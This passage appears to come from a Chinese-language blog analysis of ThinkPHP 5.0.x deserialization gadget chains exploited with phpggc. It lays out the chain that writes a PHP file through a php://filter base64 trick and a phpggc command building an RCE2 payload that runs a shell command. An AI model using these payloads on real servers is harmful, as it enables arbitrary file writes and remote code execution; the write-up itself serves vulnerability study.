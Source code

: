 到此为止,成功写入文件, 需要注意的是phpggc生成的这个payload写入的文件文件名是固定的`3b58a9545013e88c7186db11bb158c44.php`, 理由前面说过, 就是该文件名的生成就null值的md5再拼接上字符串`tag_`然后再进行md5.

整体思路如下, 感觉最关键的还是在setTagItem那一步, 那一步将原本是key的payload变成了value参数, 并使其在后面成功被写入文件. 

```
think\Process#__destruct --> 
think\Process#stop --> 
think\model\relation\HasMany#close --> 
think\model\relation\HasMany#__call --> 
think\model\relation\HasMany#baseQuery --> 
think\console\Output#where --> 
think\console\Output#__call --> 
call_user_func_array --> 
think\console\Output#block --> writeln --> write --> 
think\session\driver\Memcache#write --> 
think\cache\driver\Memcached#set (1) --> 
think\cache\driver\Memcached#has --> 
think\cache\driver\File#get --> getCacheKey --> 将php://filter伪协议拼接到开头,返回php://filter/convert.base64-decode/resource=/srv/http/tp5/6a644d26b09257b882dae6e407f23d42.php ,注意这个文件不是目标文件 --> 
think\cache\driver\Memcached#getCacheKey 返回<where>AAAPD9waHAgcGhwaW5mbygpOz8+Cg++</where> --> 
think\cache\driver\File#set --> getCacheKey获取文件名,对<where>AAAPD9waHAgcGhwaW5mbygpOz8+Cg++</where>进行md5之后进行拼接成为php://filter/convert.base64-decode/resource=/srv/http/tp5/6a644d26b09257b882dae6e407f23d42.php,同时这里可以进行一个mkdir,然而这里的目录名是非法的,然后返回文件名 --> 
回到set方法,$data前面拼接上了死亡exit,进行file_put_contents,生成文件 6a644d26b09257b882dae6e407f23d42.php,内容为乱码 --> 
回到(1) 函数 --> 
think\cache\driver\Memcached#setTagItem 生成可控的tag名--> 
再次进入think\cache\driver\Memcached#set , 两个参数都可控 --> 
think\cache\driver\File#set 参数是前面的两个参数 --> getCacheKey 将tag名进行md5之后进行拼接得到 php://filter/convert.base64-decode/resource=/srv/http/tp5/3b58a9545013e88c7186db11bb158c44.php --> 
回到\think\cache\driver\File#set 对之前可控参数之一data进行死亡exit拼接,并进行file_put_contents,效果就是file_put_contents('php://filter/convert.base64-decode/resource=/srv/http/tp5/3b58a9545013e88c7186db11bb158c44.php', '<?php\n//000000000000\nexit();?>\ns:46:"<where>AAAPD9waHAgcGhwaW5mbygpOz8+Cg++</where>";') --> 
文件写入成功,内容为乱码+php代码
```

## 5.0.24 RCE

### 环境搭建

同上

### 漏洞分析

首先生成payload

```
./phpggc ThinkPHP/RCE2 system "touch /tmp/helloman" | base64 -w 0
```

开始调试前, 请确认你的php环境的版本, 如果版本是php7.x, 请打开文件`thinkphp/library/think/db/Query.php`  看第400行代码, 这里使用我的带有警告提示的vim看: 

![image-20220118152359839](/images/phpggc-thinkphp/image-20220118152359839.png)
